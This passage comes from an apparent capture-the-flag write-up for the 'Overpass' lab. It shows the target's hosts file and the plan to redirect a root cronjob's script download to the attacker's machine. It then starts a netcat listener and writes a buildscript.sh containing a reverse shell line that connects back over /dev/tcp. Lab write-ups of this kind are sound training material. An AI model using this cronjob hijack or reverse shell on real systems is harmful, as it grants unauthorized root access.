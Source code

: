 ````shell

james@overpass-prod:~$ cat /etc/hosts

127.0.0.1 localhost

127.0.1.1 overpass-prod

127.0.0.1 overpass.thm

# The following lines are desirable for IPv6 capable hosts

::1     ip6-localhost ip6-loopback

fe00::0 ip6-localnet

ff00::0 ip6-mcastprefix

ff02::1 ip6-allnodes

ff02::2 ip6-allrouters

james@overpass-prod:~$

````

Assuming we can point that overpass.thm entry to our kali box, we should be able to send a root shell.

Lets just make our own script and stick it in the location the cronjob is calling but on our local box with the same directory structure.

Start listener

````shell

┌──(kali㉿kali)-[~/Documents/Overpass]

└─$ nc -lvnp 420 

listening on [any] 420 ...

````

After making the dir structure, lets make a reverse shell script and name it buildscript.sh

````shell

┌──(kali㉿kali)-[~/Documents/Overpass/web/downloads/src]

└─$ echo 'sh -i >& /dev/tcp/10.6.19.46/420 0>&1' >> buildscript.sh

┌──(kali㉿kali)-[~/Documents/Overpass/web/downloads/src]

└─$ cat buildscript.sh

sh -i >& /dev/tcp/10.6.19.46/420 0>&1

````
